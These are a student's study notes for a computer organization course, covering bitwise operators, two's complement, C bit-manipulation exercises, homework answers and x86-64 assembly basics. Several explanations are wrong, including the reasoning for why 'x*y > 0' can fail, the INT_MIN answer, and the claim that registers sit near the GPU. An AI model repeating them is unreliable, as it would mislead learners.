# CS 33 Notes

## Table of Contents
- [Lecture 1-3](#lecture-1-3)
- [Homework 1](#homework-1)
- [Discussion 1](#discussion-1)
- [Lecture 4-6](#lecture-4-6)
- [Homework 2](#homework-2)
- [Discussion 2](#homework-3)
- [Lecture 7-8](#lecture-7-8)
- [Homework 4](#homework-4)
- [Lecture 9-10](#lecture-9-10)
- [Homework 5](#homework-5)

## Lecture 1-3
- Bitwise operators
    - & AND: if both bits in the compared position are 1, the bit in the resulting binary representations is 1 (1 x 1 = 1); otherwise, the result is 0 (1 x 0 = 0 and 0 x 0 = 0)

    ```
        0101 (decimal 5)
    AND 0011 (decimal 3)
      = 0001 (decimal 1)
    ```

    - | OR: the result in each position is 0 if both bits are 0, while otherwise the result is 1

    ```
       0101 (decimal 5)
    OR 0011 (decimal 3)
     = 0111 (decimal 7)
    ```

    - ~ NOT: bits that are 0 become 1 and vice versa

    ```
    NOT 0111 (decimal 7)
      = 1000 (decimal 8)
    ```

    ```
    NOT 10101011 (decimal 171)
      = 01010100 (decimal 84)
    ```

    - ^ XOR: the result in each position is 1 if only one of the bits is 1, but will be 0 if both are 0 or both are 1

    ```
        0101 (decimal 5)
    XOR 0011 (decimal 3)
      = 0110 (decimal 6)
    ```
- Logical operators
    - && AND: if both operands are nonzero then the condition becomes true; otherwise, the result has a value of 0
        - 1 && 1 = 1
        - 1 && 0 = 0
        - 0 && 1 = 0
        - 0 && 0 = 0

    - || OR: if any one of the operands are nonzero then the condition becomes true; otherwise, the result has a value of 0
        - 1 || 1 = 1
        - 1 || 0 = 1
        - 0 || 1 = 1
        - 0 || 0 = 0
    
    - ! NOT: if the condition is true then the logical NOT operator will make it false and vice versa
        - !0 = 1
        - !1 = 0
    
- Shift operators
    - x << y Left shift
        - Shift bit-vector x left y positions
        - Throw away extra bits on left
        - Argument x:     01100010
            - `<< 3:       00010000`
            - `Log. >> 2   00011000`
            - `Arith. >> 2 00011000`
        - Shifting left by n positions is the same as multiplying by 2^n, even for negative numbers and with overflowing
    - x >> y Right shift
        - Shift bit-vector x right y positions
        - Throw away extra bits on right
        - Argument x:     10100010
            - `>> 3:       00010100`
            - `Log. >> 2   00101000`
            - `Arith. >> 2 11101000`
        - Logical
            - Does not sign-extend
            - Applies on unsigned int
            - Shifting right by n positions is the same as dividing by 2^n
            ```
            unsigned num = 0xCF00000F;

            num >> 4: 0x0CF00000
            num / 16: 0x0CF00000
            ```
        - Arithmetic
            - Sign is preserved
            - Applies on int
            - Not like division by powers of 2
                - Rounded towards -infinity instead of zero
            ```
            int num = 0xCF00000F; 

            num >> 4: 0xFCF00000
            num / 16: 0xFCF00001

            int num = -7;
            
            num >> 1: -4
            num / 2: -3
            ```
    - Logicial shift
        - Fill with 0's on right/left
    - Arithmetic shift
        - Replicate most significant bit on right/left
    - Undefined behavior
        - Shift amount < 0 or >= word size

- Encoding integers
    - Sign bit
        - For 2's complement, most significant bit indicates sign
        - 0 for nonnegative / positive
        - 1 for negative

- Numeric ranges
    - Unsigned values
        - UMin = 0 / 000...0
        - UMax = 2^w - 1 / 111...1
    - Two's complement values
        - TMin = -2^(w-1) / 100...0
        - TMax = 2^(w-1) - 1 / 011...1
    - Other values
        - Minus 1 / 111...1
    - Cheatsheet
        - 0 = 0x00 = 000...
        - -1 = 0xff = 111...
        - ~0 = -1
        - ~(-1) = 0
    - Common bit manipulation patterns
        - Negative of a number: `-c = ~c + 1`
        - Mask to 0/1 bit: `!!mask`
        - Mask from sign-bit: `num >> 31`
        - Getting a bit
        ```
        bool getBit(int num, int i)
        {
            int bit = ((1 << i) & num);
            return !!bit;
        }
        ```
        - Setting a bit
        ```
        bool setBit(int num, int i)
        {
            return ((1 << i) | num);
        }
        ```
        - Branches
        ```
        if(test)
            output = a;
        else
            output = b;
        ```
        ```
        mask = ((!!test << 31) >> 31);
        output = (mask & a) | (~mask & b);
        ```
    - |TMin| = TMax + 1
        - Asymmetric range
    - UMax = 2 * TMax + 1
    - Mapping between unsigned and two's complement numbers: keep bit representations and reinterpret
    - Signed vs unsigned in C
        - Constants
            - By default are considered to be signed integers
            - Unsigned if have "U" as suffix (Ex: 0U, 4294967259U)
        - Casting
            - Explicit casting between signed and unsigned same as U2T and T2U
            ```
            int tx, ty;
            unsigned ux, uy;
            tx = (int) ux;
            uy = (unsigned) ty;
            ```
    - If there is a mix of unsigned and signed in single expression, signed values implicitly cast to unsigned
        - Including comparison operators <, >, ==, <=, >=

- Assuming the following, which of the following statements are always true?
```
int x = rand();
int y = rand();
unsigned ux = unsigned(x);
unsigned uy = unsigned(y);
```
- `(x > 0) && (y > 0) => x * y > 0`: False. If either x or y is negative, then the left side of the && condition is false, and the right side is not evaluated. So, the overall result is false.
- `x > uy => x > 0`: False. x could also be equal to 0. 
- `(x^x)^x == y => x == y`: True. The XOR (^) operation with itself cancels out, so (x^x) is 0. Therefore, (0^x) is equivalent to x, and this statement is true.
- `(ux - uy) == x - y`: True. If y is non-negative, the conversion from signed to unsigned preserves the value, and the subtraction works as expected. If y is negative, the subtraction under modulo arithmetic still results in the same value.
- `(x << 32) >> 32 == x`: Undefined. Left-shifting a 32-bit integer by 32 bits is undefined behavior in C because it goes beyond the size of the integer. The result is not well-defined.

- Write a C function using only bitwise operators and “!”, to determine if the number given is non-negative. If the number is non-negative return 1 else 0.
```
int is_nonnegative(int x)
{
    return !(x >> 31);
}
```

- Write a C function using only bitwise operators to return the absolute value of a number. If the number is Tmin, just return Tmin since there is no positive representation of Tmin.
```
int my_abs(int x)
{
    int sign = x >> 31;
    return (x ^ sign) + (1 & sign); // multiply by -1 if the sign is negative
}
```

- Write a function sm2tc(int x), which converts an int from sign magnitude to two’s complement using only bitwise operations. Note that we will be using Little Endian convention and the MSB represents the signed bit.
    - Reminder: Sign magnitude works such that one bit (the MSB) represents the sign of the number while the rest of the bits represent the magnitude of the number.
    ```
    int sm2tc(int x)
    {
        int is_negative = x >> 31;
        int mask = ~(~0 << 31); // remove the sign bit
        return (is_negative) & (~(x & mask) + 1) | ~is_negative & x;
        // if it's not negative we can return the same number, else we return 2's complement
    }
    ```

<!-- - Definitions
    - Architecture (also ISA: instruction set architecture): the parts of a processor design that one needs to understand or write assembly/machine code
        - Examples: instruction set specification, registers
    - Microarchitecture: implementation of the architecture
        - Examples: cache sizes and core frequency
    - Code forms:
        - Machine code: the byte-level programs that a processor executes
        - Assembly code: a text representation of machine code
    - Example ISAs:
        - Intel: x86, IA32, Itanium, x86-64
        - ARM: Used in almost all mobile phones

- Programmer-Visible State
    - PC: Program counter
        - Address of next instruction
        - Called "RIP" (x86-64)
    - Register file
        - Heavily used program data
    - Condition codes
        - Store status information about most reent arithmetic or logical operation
        - Used for conditional branching 
    - Memory
        - Byte addressable array
        - Code and user data
        - Stack to support procedures

- Turning C into Object Code
    - Code in files `p1.c` and `p2.c`
    - Compile with the command: `gcc -0g p1.c p2.c -o p`
        - Use basic optimizations (`-0g`)
        - Put resulting binary in file `p`

- Assembly Characterisitics
    - Data Types
        - "Integer" data of 1, 2, 4, or 8 bytes
            - Data values
            - Addresses (untyped pointers)
        - Floating point data of 4, 8, or 10 bytes
        - Code: byte sequences encoding series of instructions
        - No aggregate types such as arrays or structures
            - Just contiguously allocated bytes in memory
    - Operations
        - Perform arithmetic function on register or memory data
        - Transfer data between memory and register
            - Load data from memory into register
            - Store register data into memory
        - Transfer control
            - Unconditional jumps to/from procedures
            - Conditional branches 

- Object code
    - Assembler
        - Translates .s into .o
        - Binary encoding of each instruction
        - Nearly-complete image of executable code
        - Missing linkages between code in different files
    - Linker
        - Resolves references between files
        - Combines with static run-time libraries
            - E.g., code for `malloc`, `printf`
        - Some libraries are dynamically linked
            - Linking occurs when program begins execution
    - Disassembler
        - `objdump -d sum`
        - Useful tool for examining object code
        - Analyzes bit pattern of series of instructions
        - Produces approximate rendition of assembly code
        - Can be run on either `a.out` (completely executable) or `.o` file
        - Within gdb debugger
            - `gdb sum`
            - `disassemble sumstore`
                - Disassemble procedure
            - `x/14xb sumstore`
                - Examine the 14 bytes starting at `sumstore`
        - What can be disassembled?
            - Anything that can be interpreted as executable code
            - Disassembler examines bytes and reconstructs assembly source

        - Operand types
        - Immediate: constant integer data
            - Example: `$0x400`, `$-533`
            - Like C constant, but prefixed with `$`
            - Encoded with 1, 2, or 4 bytes
        - Register: one of 16 integer registers
            - Example: `%rax`, `%r13`
            - But `%rsp` reserved for special use
            - Others have special uses for particular instructions
        - Memory: 8 consecutive bytes of memory at address given by register
            - Simplest example: `(%rax)`
            - Various other "address modes" -->

## Homework 1

2.71

a. The code won’t work for negative numbers. 0xFF will translate to 000…11111111, and as a result, you won’t be able to return a negative number due to the & operation zeroing out the result.

b. 4 signed bytes are packed into a 32-bit unsigned. Bytes within the word are numbered from 0 (least significant) to 3 (most significant). Extract the designated byte and return as signed integer.

```
int xbyte(packed_t word, int bytenum)
{
    return (word << ((3 - bytenum) << 3)) >> 24;
}
```

`(3 - bytenum)`: This expression calculates the difference between 3 (the index of the most significant byte in a 32-bit word) and bytenum. This result determines how many bytes we need to shift to reach the desired byte.

`((3 - bytenum) << 3)`: This part left-shifts the result by 3 positions, effectively converting the byte index to bit positions. Each byte is 8 bits, so shifting by 3 is equivalent to multiplying by 8.

`(word << ((3 - bytenum) << 3))`: This left-shifts word by the calculated bit position, effectively moving the desired byte to the least significant byte position.

`>> 24`: This right-shifts the result by 24 positions. Since we are working with a 32-bit word, right-shifting by 24 positions effectively discards the least significant 24 bits, leaving only the desired byte in the least significant byte position.

2.82

Indicate whether or not the expression always yields 1. If so, describe the underlying mathematical principles. Otherwise, give an example of arguments that make it yield 0.

a. `(x<y) == (-x>-y)`: No. If x is INT_MIN, the negative value of INT_MIN will wrap around because the absolute value of INT_MIN is one less than INT_MIN meaning INT_MIN = -INT_MIN (integer overflow). So if y is a number like -42 INT_MIN is not greater than -42.

b. `((x+y)<<4) + y-x == 17*y+15*x`: Yes. Shifting left by 4 multiplies (x+y) by 16 and then adding y and subtracting x gives you 16x + 16y + y - x = 15x + 17y = 17y + 15x.

c. `~x+~y+1 == ~(x+y)`: Yes. The left side = (-x - 1) + (-y - 1) + 1 which is equal to -x - y - 1. 

d. `(ux-uy) == -(unsigned)(y-x)`: Yes. Distribute the unsigned and negative sign on the right side to obtain -(uy-ux) = ux-uy.

e. `((x>>2) << 2) <= x`: Yes. For positive numbers, x ends up at the same value. However, for negative numbers, the end result will be less than x due to the arithmetic right shift.

## Discussion 1

1. Assume:
int x = rand();
int y = rand();
unsigned ux = (unsigned) x;

Are the following statements always true?

a. `ux >> 3 == ux/8`: Yes. For unsigned integers, right shifting always rounds towards 0, as all unsigned integers are non-negative and extra 1's on the right are discarded while right shifting. Thus, shifting to the right by 3 is equivalent to integer division by 2^3, which also rounds towards 0.

<!-- Yes. Shifting right by 3 is the same as dividing by 8, since it is an unsigned integer. -->

b. `given x > 0, ((x << 5) >> 6) > 0`: No. In the case where (x << 5) has a 1 for its most significant bit, right shifting by 6 will produce a negative number. 

<!-- No. If the left most bit (?) is 1 when after you left shift and before you right shift, x will end up being negative, thus smaller than 0. -->

c. `~x + x >= ux`: Yes. ~x + x would be UMAX.

<!-- Yes. (-x - 1) + x = -1 >= ux. -1 will be converted to the maximum representable value of the unsigned type, so they'll always be equal. -->

d. `given x & 15 == 11, ( ~((x >> 3) & (x >> 2)) << 31) >= 0`: No. The final comparison against 0 effectively checks if the most significant bit of the left hand sign is 0 or not. By the given statement, we know that the 4 least significant bits (lsb) of x are 1011. Thus (x >> 3) has a lsb of 1, while (x >> 2) has a lsb of 0.

AND-int the two together has a lsb of 0, which when negated is 1. Left-shifting by 31 thus results in a number with a most significant bit of 1, and the remaining bits being 0. This is a negative number.

<!-- No.
x = 00001011 = 11
00001111
00001011

~((00000001) & (00000010)) << 31
~(00000000) << 31
11111111 << 31
will be negative, so it'll be less than 0. -->

e. `given ((x < 0) && (x + x < 0)), x + ux < 0`: No. In an addition of an unsigned integer with a signed integer, the signed integer is implicitly cast to unsigned. Thus, the addition of two unsigned integers will always be non-negative.

<!-- No. Adding an unsigned integer to x will never make the result negative, since unsigned integers cannot represent negative numbers. -->

f. `given ((x < 0) && (y < 9) && (x + y) > 0)), ((x | y) >> 30) == -1`: No. Per the given, we know that the two most significant bits of x and y can be either 10 and 10, 11 and 10, or 10 and 11. In the case where x and y are 10 and 10, (x | y) would have most significant bits of 10. In that case, right shifting (x | y) by 30 would result in -2. 

<!-- No. x is a negative number, y is less than 9, x must be -8 < x < -1 and 2 < y < 9. x will always be 1.. and y will be 0... If you use the or operation, the resulting bit will start with 1, so if you shift it to the right by 30, it will not equal -1. -->

2. Given: x has a 4 byte value of 255, what is the value of the byte with the lowest address in a...

a. big endian system? (most significant value in the sequence is stored at the lowest storage address): 0x00

b. little endian system? (least significant value in the sequence is stored at the lowest storage address): 0xFF

## Lecture 4-6
- Machine programming
    - Moving data: `movq source, dest`
    - `leaq source, dest`
        - Computing address without a memory reference
            - E.g., translation of `p = &x[i]`
        - Computing arithmetic expressions of the form x + k*y
            - k = 1, 2, 4, or 8
        - Sets dest to address computed at source
    - `addq source, dest`: dest = dest + source
    - `subq source, dest`: dest = dest - source
    - `imulq source, dest`: dest = dest * source
    - `salq source, dest`: dest = dest << source (aka shlq)
    - `sarq source, dest`: dest = dest >> source (arithmetic)
    - `shrq source, dest`: dest = dest >> source (logical)
    - `xorq source, dest`: dest = dest ^ source
    - `andq source, dest`: dest = dest & source
    - `orq source, dest`: dest = dest | source
    - `incq dest`: dest = dest + 1
    - `decq dest`: dest = dest - 1
    - `negq dest`: dest = -dest
    - `notq dest`: dest = ~dest
    - `cmpq src2, src1`
        - `cmpq b, a`: like computing `a-b` without setting destination
        - `CF set` if carry out from most significant bit (used for unsigned comparisons)
        - `ZF set` if `a == b`
        - `SF set` if `(a-b) < 0` (as signed)
        - `OF set` if two's-complement (signed) overflow
    - `testq src2, src1`
        - `testq b, a` like computing `a&b` without setting destination
        - Sets condition codes based on value of src1 & src2
        - Useful to have one of the operands be a mask
        - `ZF set` when `a&b == 0`
        - `SF set` when `a&b < 0`
    - `retq`
        - "Return"
        - Returns from a function
    - Assembly lingo
        - b: byte (1 byte, 8 bits)
        - w: word (2 bytes, 16 bits)
        - l: long (4 bytes, 32 bits)
        - q: quad (8 bytes, 64 bits)
        - Floating-points
            - s: (4 bytes, 32 bits)
            - l: (8 bytes, 64 bits)
    - Data sizes
        - char: 1 byte
        - short: 2 bytes
        - int, float: 4 bytes
        - double, long, pointers: 8 bytes
        - long double: 16 bytes

- Double check lecture 4 content:
    - C control
        - if-then-else
        - do-while
        - while, for
        - switch
    - Assembler control
        - Conditional jump
        - Conditional move
        - Indirect jump (via jump tables)
        - Compiler generates code sequence to implement more complex control
    - Standard techniques
        - Loops converted to do-while or jump-to-middle form
        - Large switch statements use jump tables
        - Sparse switch statements may use decision trees (if-elseif-elseif-else)

- Condition flags
    - CF: carry flag
    - ZF: zero flag
    - SF: sign flag
    - OF: overflow flag
    - Implicitly set by arithmetic operations
    - Explicitly set by `cmp` and `test`
        - `cmp b, a` => `a - b`
        - `test b, a` => `a & b`

- Conditional move
    - `cmove S, D`
    - Example:
        - `testq %rdi, %rdi`
        - `cmove %rdx, %rax`
        - Equivalent C code:
        ```
        v = then-expr;
        ve = else-expr;
        t = test-expr;
        if (!t) v = ve;
        ```

- Jumps
    - `je`: jump if equal
    - `jne`: jump if not equal
    - `js`: jump if signed
    - `jns`: jump if not signed
    - `jg`: jump if greater (signed)
    - `jge`: jump if greather than or equal to (signed)
    - `jl`: jump if less (signed)
    - `jle`: jump if less than or equal to (signed)
    - `ja`: jump if above (unsigned)
    - `jb`: jump if below (unsigned)

- If statements
```
0x400572 <+0>: 	cmp  $0x6,%edi
0x400575 <+3>: 	jg  0x40057d <func0+11>
0x400577 <+5>: 	mov	$0x0,%eax
0x40057c <+10>:	ret
0x40057d <+11>:	mov	$0x6,%eax
0x400582 <+16>:	ret
```
```
if (a > 6)
    return 6;
 return 0;
```

- Loops
```
...
0x400589 <+6>: 	mov	%edi,%ebp
0x40058b <+8>: 	mov	$0x0,%ebx
0x400590 <+13>:	jmp	0x4005a6 <func1+35>
0x400592 <+15>:	mov	%ebx,%esi
0x400594 <+17>:	mov	$0x4006b4,%edi
0x400599 <+22>:	mov	$0x0,%eax
0x40059e <+27>:	call     0x400460 <printf@plt>
0x4005a3 <+32>:	add	$0x1,%ebx
0x4005a6 <+35>:	cmp	%ebp,%ebx
0x4005a8 <+37>:	jl 	0x400592 <func1+15>
0x4005aa <+39>:	mov	$0x0,%eax
0x4005af <+44>:	add	$0x8,%rsp
...
0x4005b5 <+50>:	ret
```
```
int i = 0;
while(i < a) {
    printf("%d", i);
    i++;
}
return 0;
```

- Switch statements
```
0x4005b6 <+0>: 	sub	$0x64,%edi
0x4005b9 <+3>: 	cmp	$0x7,%edi
0x4005bc <+6>: 	ja 	0x4005df <func2+41>
0x4005be <+8>: 	mov	%edi,%edi
0x4005c0 <+10>:	jmp	*0x4006b8(,%rdi,8)
0x4005c7 <+17>:	mov	$0x1,%eax
0x4005cc <+22>:	ret
0x4005cd <+23>:	mov	$0x3,%eax
0x4005d2 <+28>:	ret
0x4005d3 <+29>:	mov	$0x4,%eax
0x4005d8 <+34>:	ret
0x4005d9 <+35>:	mov	$0x5,%eax
0x4005de <+40>:	ret
0x4005df <+41>:	mov	$0x0,%eax
0x4005e4 <+46>:	ret
0x4005e5 <+47>:	mov	$0x2,%eax
0x4005ea <+52>:	ret
```
```
switch(a) {
    case 100:
    case 102:
        return 1;
    case 103:
        return 2;
    case 104:
        return 3;
    case 106:
        return 4;
    case 107:
        return 5;
    default:
        return 0;
}
```
```
0x4006b8:   	0xc7		0x05	0x40	0x00	0x00	0x00	0x00	0x00
0x4006c0:   	0xdf		0x05	0x40	0x00	0x00	0x00	0x00	0x00
0x4006c8:   	0xc7		0x05	0x40	0x00	0x00	0x00	0x00	0x00
0x4006d0:   	0xe5		0x05	0x40	0x00	0x00	0x00	0x00	0x00
0x4006d8:   	0xcd		0x05	0x40	0x00	0x00	0x00	0x00	0x00
0x4006e0:   	0xdf		0x05	0x40	0x00	0x00	0x00	0x00	0x00
0x4006e8:   	0xd3		0x05	0x40	0x00	0x00	0x00	0x00	0x00
0x4006f0:   	0xd9		0x05	0x40	0x00	0x00	0x00	0x00	0x00
```

- x86-64 stack
    - The stack
        - Stores local variables
        - Enter a new "stack frame" whenever you enter a new function
        - Grows by decrementing `%rsp` (`pushq`)
        - Shrinks by incrementing `%rsp` (`popq`)
    
    - Region of memory managed with stack discipline
    - Grows toward lower addresses
    - Registers
        - Small hardware-based storage devices closest to the GPU that generally store addresses into physical memory
        - `%rax`: Return value
        - `%rsp`: Stack pointer (lowest stack address, top of "top" element)
        - `%rdi`, `%rsi`, `%rdx`, `%rcx`, `%r8`, %`r9`: Store the 1st-6th argument passed to a function call
        - `%r10`, `%r11`: Caller-saved registers
            - After a `callq` instruction, their values might be different
            - The caller needs to save their values if these registers are holding data
        - `%rbx`, `%rbp`, `%r12`, `%r13`, `%r14`, `%r15`: Callee-saved registers
            - Before exiting a function call, ensure that the values in these registers did not change
    - `pushq src`
        - Fetch operand at src
        - Decrement %rsp (stack pointer) by 8 
        - Write operand at address given by %rsp (place the value)
    - `popq dest`
        - Read value at address given by %rsp (extract the value)
        - Increment %rsp (stack pointer) by 8
        - Store value at dest (must be register)
    - Stack is the right data structure for procedure call / return
        - If P calls Q, then Q returns before P
        - Usage of `call` and `ret`:
        - Implements a subroutine `call` and `return`
        - `call`: Saves a return address, then jumps to the lcoation of the callee function
            - Pushes the current code location onto the hardware supported stack in memory
            - Performs an unconditional jump to the code location indicated by the label operand
            ```
            call <label>:
                pushq %rip // %rip points to the next instruction to be executed
                jump <label>
            ```
        - `ret`: Uses the previously saved return address to jump back to the caller function
            - Transfers program control to a return address located on the top of the stack
        - Call stack
            - Stack grows when more items are added to its "top"
            - Pushing on the stack grows it
            - Stack grows in the direction of decreasing address
            - Pushing on the stack = decrementing the stack pointer

- Assembly to C


- Memory addressing modes
    - General form: `D(Rb, Ri, S)`
        - D is a constant displacement that can be as wide as 32-bits
        - Rb is the base register, which is any of the 16 integer registers
        - Ri is the index register, which can be any register except for %rsp
        - S is the scale (can only be 1, 2, 4, or 8)
    - Translates to `MEM[D + R_EG[Rb] + R_EG[Ri]*S]`

    - Consider the following instruction: `movq $10, -8(%rax, %rdx, 4)`
        - We're applying the `movl` instruction, which is responsible for moving (or copying) a value from one memory location to another
        - We're moving the immediate value `$10`
            - We know that it's an immediate because it is prepended by a `$` sign
            - An immediate is like a constant
        - We're moving the immediate into a memory location, `MEM[REG[%rax]+4*REG[%rdx]+(-8)]`
        - We know that it's a memory location because of the parentheses!
    - Let's consider the following instruction: `leaq source, destination`
        - `leaq`, or load effective address, does exactly as its name suggests
        - The instruction takes a memory address expressed through the parameters (D, Rb, Ri, S) and, rather than returning the value at the address, returns the address itself
        - This in contrast with `movq`, which moves the contents of a specific address

- Suppose we have `leaq D(Rb, Ri, S), %rbx` and that our variable N is in the register of %rax. What values K*N can we produce with the `leaq` instruction? (Where K is some integer.)
    - If we use the form `(, %rax, S)` we can produce N, 2N, 4N, and 8N
    - If we use the form `(%rax, %rax, S)`, we can take advantage of the adding of the first parameter and produce 3N, 5N, and 9N
    
    

- Procedure control flow
    - Use stack to support procedure call and return
    - Procedure call: call label
        - Push return address on stack
        - Jump to label
    - Return address:
        - Address of the next instruction right after call
        - Example from disassembly
    - Procedure return: ret
        - Pop address from stack
        - Jump to address
    - Recursion and mutual recursion handled by normal calling conventions
        - Can safely store values in local stack frame and in callee-saved registers
        - Put function arguments at top of stack
        - Result return in %rax
    - Pointers are addresses of values
        - On stack or global

- Arrays
    - Basic principle
        - T A[L];
        - Array of data type T and length L
        - Contiguously allocated region of L * sizeof(T) bytes in memory
        - Identifier A can be used as a pointer to array element 0: Type T*
    - Accessing example:
    ```
    # %rdi = z (starting address of array)
    # %rsi = digit (array index)
    movl(%rdi, %rsi, 4), %eax # z[digit], desired digit at %rdi + 4 * %rsi, use memory reference
    ```
    - Incrementing example:
    ```
    addl $1, (%rdi, %rax, 4) # z[i]++
    ```
    - Multidimensional (nested) arrays
        - T A[R][C];
            - 2D array of data type T
            - R rows, C columns
            - Example: `int myArray[3][3]`
        - Type T element requires K bytes
        - Array size: R * C * K bytes
        - Continuous memory
        - Arrangement: row-major ordering (elements are listed horizontally in one row continuously)
        - Row access
            - Row vectors
                - A[i] is array of C elements
                - Each element of type T requires K bytes
                - Starting address A + i * (C * K)
            - Accessing example:
            ```
            # %rdi = index
            leaq(%rdi, %rdi, 4), %rax # 5 * index
            leaq pgh(, %rax, 4), %rax # pgh + (20 * index)
            ```
                - Row vector
                    - pgh[index] is array of 5 ints
                    - Starting address pgh + 20 * index
                - Machine code
                    - Computes and returns address
                    - Compute as pgh + 4 * (index + 4 * index)
        - Element access
            - Array elements
                - A[i][j] is element of type T, which requires K bytes
                - Address A + i * (C * K) + j * K = A + (i * C + j) * K
            - Accessing example:
            ```
            int get_pgh_digit(int index, int dig)
            {
                return pgh[index][dig];
            }

            leaq (%rdi, %rdi, 4), %rax # 5 * index
            addl %rax, %rsi            # 5 * index + dig
            movl pgh(, %rsi, 4), %eax  # M[pgh + 4 * (5 * index + dig)]
            ```
                - Array elements
                    - pgh[index][dig] is int
                    - Address: pgh + 20 * index + 4 * dig = pgh + 4 * (5 * index + dig)
    - Multi-level arrays
        - Array of pointers to arrays
        - Example: `int myArray2[3]*`

